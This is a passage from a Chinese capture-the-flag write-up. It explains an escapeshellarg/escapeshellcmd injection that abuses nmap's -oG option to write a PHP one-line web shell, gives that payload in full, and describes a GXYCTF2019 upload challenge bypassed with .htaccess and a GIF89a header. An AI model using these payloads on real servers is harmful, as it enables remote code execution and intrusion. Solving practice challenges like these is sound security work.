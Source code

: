 *   检测HTTP头`X-Forwarded-For`，并将其值赋给`REMOTE__ADDR`，后面要用
*   `GET`传参`host`,并使用函数`escapeshellarg()`函数对其中的单引号进行转义并将整个字符串用单引号括起来
*   `1'`->`'1'\'''`
*   然后经过`escapeshellcmd()`函数将里面的`不配对的单引号`和`反斜杠`转义
*   `'1'\'''`->`'1'\\''\'`
*   如果拼接到所给的代码里形成的命令就是⬇
*   `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\''\'`其中，1被括起来，是一个字符串，两个斜杠`\\`结合就是转义后的`\`，不再起转义作用，两个单引号`''`变为一个`空字符`，而后面的`\'`就变为转义后的单引号`'`
*   所以说它等价于`nmap -T5 -sT -Pn --host-timeout 2 -F 1\ '`

如此拼接，我们便可以利用下面的`system()`函数将一些`nmap`命令执行，`nmap`可以用参数`-oG`将结果保存到一个指定文件中，利用这一特性，我们向其中写入一句话。

payload:`''<?php @eval($_POST[x])?> -oG hack.php'`

处理后的是这样的`''\\'' \<\?php @eval\(\)\?\> -oG hack.php '\\'''`

访问`sandbox`对应的字符串为文件夹，其中的`hack.php`蚁剑连接，根目录下flag
![在这里插入图片描述](img/e39e7247a4ae0b355a0ccc0791737052.png)

**真绕**

# [GXYCTF2019]BabyUpload

![在这里插入图片描述](img/57eda9f1c54ca72b8d8f3008632b3401.png)

朴素的上传界面。
![在这里插入图片描述](img/12776f3f103eee005284bd2ed25c4c2d.png)

![在这里插入图片描述](img/d178406438b656ec9100a02f15b2e18b.png)
上传`.htaccess`解析含有`01`字样的文件为`php`文件
![在这里插入图片描述](img/2d9308e14a89cee6d4921f3a0084175f.png)`01.jpeg`后缀、MIME、文件头绕过(GIF89a)
![在这里插入图片描述](img/721a0cc25432463fad55d33b6a90c9c3.png)`蚁剑连接`